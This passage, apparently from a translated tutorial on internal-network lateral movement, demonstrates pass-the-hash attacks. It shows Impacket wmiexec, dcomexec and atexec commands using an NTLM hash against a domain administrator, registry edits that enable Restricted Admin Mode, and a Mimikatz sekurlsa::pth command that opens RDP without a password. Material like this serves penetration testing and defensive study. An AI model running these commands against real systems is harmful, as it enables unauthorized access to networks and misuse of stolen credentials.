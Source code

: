 ```bash
# wmiexec.py
python3 wmiexec.py -hashes:96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2012.png)

```bash
# dcomexec.py, usually uses MMC20, and DCOM sometimes encounters errors of 0x800706ba, which are usually intercepted by the firewall.
python3 dcomexec.py -object MMC20 -hashes :96b26b0744352a9d91516132c3fe485d hac k/administrator@10.10.10.137
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2013.png)

```bash
# atexec.py, execute commands on the target machine through the MS-TSCH protocol control plan task and obtain echo
python3 atexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137 whoami
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2014.png)

## Log in to the remote desktop using hash delivery

Hash delivery can also establish a remote desktop connection under specific conditions. The conditions required are as follows:

1. The remote host has enabled the "restricted administrator" mode;
2. The user used to log in to the remote desktop is located in the administrator group of the remote host;
3. Need to obtain the hash of the target user

`Windows Server 2012 R2` and above versions of `Windows` systems adopt a new version of `RDP`, which supports `Restricted Admin Mode`. After turning on this mode, the attacker can directly `RDP` to the target host through `PTH`. Restricted Administrator mode is enabled by default on `Windows 8.1` and `Windows Server 2012 R2`.

```bash
# Manually enable Restricted Admin Mode
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
# Check whether Restricted Admin Mode is enabled. If the value is 0, it means it is started; if it is 2, it is not enabled
reg query "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
```

When the target host is enabled `Restricted Admin Mode`, it can be used through `Mimikatz`.

Principle: After the hash is successfully passed, execute the `mstsc.exe /restrictedadmin` command to run the remote desktop client in restricted administrator mode, achieving the effect of logging into the remote desktop without entering the username and password.

```bash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:Administrator /domain:hack.local /ntlm:96b26b0744352a9d91516132c3fe485d "/run:mstsc.exe /restrictedadmin"
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2015.png)

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2016.png)